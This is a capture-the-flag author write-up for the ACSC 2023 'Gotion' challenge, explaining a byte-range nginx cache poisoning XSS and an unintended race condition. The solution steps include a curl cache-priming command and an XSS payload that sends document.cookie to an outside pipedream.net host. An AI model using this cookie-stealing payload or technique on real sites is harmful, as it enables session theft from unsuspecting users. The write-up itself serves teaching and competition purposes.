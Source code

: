 ```yaml
---
title: "ACSC 2023 Gotion Challenge Author Writeup"
date: 2023-03-12T00:00:00+09:00
url: /posts/2023-03-12-acsc-2023-gotion/
type: post
showTableOfContents: true
---
```


I made a Gotion Challenge in [ACSC](https://acsc.asia/) (Asian Cyber Security Challenge) 2023.

This is a byte-range cache poisoning XSS challenge.

Challenge Description:

```
Gotion is yet another simple secure note service. You might have seen these kind of applications many times before, but try this one!
```

Challenge Repository: <https://github.com/tyage/acsc2023-gotion>

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">In ACSC 2023, I made a Gotion challenge and promotion video :) Thank you everyone who played! <a href="https://t.co/SN4PXKkKid">pic.twitter.com/SN4PXKkKid</a></p>&mdash; もうダニ by 左京区在中 (@tyage) <a href="https://twitter.com/tyage/status/1629679515529281536?ref_src=twsrc%5Etfw">February 26, 2023</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

# Challenge Details

The challenge has three components: Go web application, nginx and bot.
This is obviously an XSS challenge as the bot has FLAG in the cookie.

The Go app allows users to create simple note pages with only title and body.
The title "Gotion" is a parody of the famous note-taking app Notion and Go.

Users can enter title and body, but they are HTML escaped.
Therefore it is not possible to cause XSS in the notes page.

The key points here are that notes have their own unique URL and Gotion creates static HTML files for each note page like SSG (Static Site Generator).
Users can control the last part of the note URL, but they are only allowed to use restricted characters `[a-zA-Z0-9 ]`.

Looking inside nginx, the config file has a suspicious cache directive.

```nginx
proxy_cache_path /tmp/nginx keys_zone=mycache:10m;
server {
    listen 80;

    location ~ .mp4$ {
        # Smart and Efficient Byte-Range Caching with NGINX
        # https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/
        proxy_cache mycache;
        slice              4096; # Maybe it should be bigger?
        proxy_cache_key    $host$uri$is_args$args$slice_range;
        proxy_set_header   Range $slice_range;
        proxy_http_version 1.1;
        proxy_cache_valid  200 206 1h;
        proxy_pass http://app:3000;
    }

    location / {
        proxy_pass http://app:3000;
    }
}
```

This directive caches an mp4 file, but it is not a normal cache, it is a [byte-range cache](https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/) which allows us to cache part of the content.
When a client requests `Range: bytes=0-1000`, nginx requests the content with a `Range: bytes=0-4095` header to the origin server and caches the response.
If a client requests `Range: bytes=0-1000` again, nginx can respond quickly because there is a cache of the first 4096 bytes.

This config file also has an error in the location directive.
The `.` in `location ~ .mp4$` does not mean `.` but any character, because this is RegExp.
This directive was made for the video file `howto.mp4` but the file such as `FOOBARmp4` will unfortunately be cached.

# Solution

The solution is byte range cache poisoning, which causes nginx to return HTML containing XSS payload.

This is possible because nginx concatenates segmented caches.
Consider a situation where nginx has the content cache, but only the first 4096 bytes, and the content was updated later.
When a client makes a request without a range header, nginx will retrieve the rest of the updated content and concatenate it with the first cache.

In other words, we can concatenate the sliced parts of two different HTMLs!

The steps to exploit this into XSS are below.

1. Create a note page whose URL ends with `AAAAAAAAAAAAAAAAAmp4` so that it will be cached.

2. Modify the HTML of the note so that the first 4096 bytes end with `<`.

The first 4096 bytes of HTML will look like this

```html
<!DOCTYPE html>
<html lang="en">

<head>
...
          <textarea name="body" class="form-control" placeholder="note" style="height: 300px;">AAAA...AAAAA<
```

3. Cache the first 4096 bytes with a range header `curl http://.../...AAAAAAAAAAAAAAAAAmp4 -H "Range: bytes=0-4095"`.

4. Update the page so that the second 4096 bytes block starts with `img src=x onerror=[payload here]`.

The second block will look like this

```html
img src=x onerror=location=`//eo7x31ojradre3r.m.pipedream.net/?c=${document.cookie}` x=</textarea>
...
</body>

</html>
```

5. Report the URL `http://.../...AAAAAAAAAAAAAAAAAmp4`

6. Wait for the flag and done!

The full solution script is here <https://github.com/tyage/acsc2023-gotion/blob/main/solution/solve.py>.

# Unintended Solution

There is an unintended solution.
I forgot to write an exclusive lock when Go app write a HTML to file.

<https://github.com/tyage/acsc2023-gotion/blob/main/app/main.go#L117>

```go
		f, err := os.OpenFile(noteFilePath, os.O_WRONLY|os.O_TRUNC, 0644)
		if err != nil {
			http.Error(w, "invalid note", http.StatusInternalServerError)
			return
		}

		WriteNote(f, NoteParam{
			Id:    noteId,
			URL:   noteURL,
			Title: title,
			Body:  body,
		})
```

It causes race condition when the app process `WriteNote` at the same time and it was possible to store broken HTML causing XSS.

# Comment

To make a challenge solvable, origin HTTP server must support byte-range request and must *not* return E-Tag header.
Fortunately, Go net/http server meets these requirements therefore I chose the Go server.

Not only nginx but also some other HTTP cache servers and CDNs have this kind of implementation, so I think this concept has a chance to be exploited in a real environment.

I think this is the first PoC of byte-range cache poisoning XSS and I wish the participants have enjoyed the challenge!
